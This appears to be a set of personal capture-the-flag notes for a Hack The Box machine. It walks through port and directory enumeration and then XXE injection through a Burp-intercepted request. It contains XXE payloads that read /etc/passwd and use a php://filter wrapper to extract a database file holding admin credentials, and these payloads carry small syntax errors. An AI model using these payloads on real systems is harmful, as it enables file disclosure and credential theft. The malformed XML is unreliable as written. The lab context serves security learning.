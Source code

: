 HTB - Bughunter (easy)
**bug**: xxe

**nmap**
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to
https://rhost/portal.php
check sources
click 
https://rhost/log_submit.php
open burp
capture request on submit
you can see POST request to /tracker_diRPrOOf314.php
check data to inspector
the data is base64 and url encoded 

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**
capture POST request 
https://rhost/tracker_diRPrOOf314.php
you can see XML format being rendered in frontend

**(encoding)** use Hackverter ext on burp suite
select Encode tab
select urlencode and base64


**sensitive file read XXE**
change the requested XML with this edited request

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal
echo "the td data type shit" | base64 -d
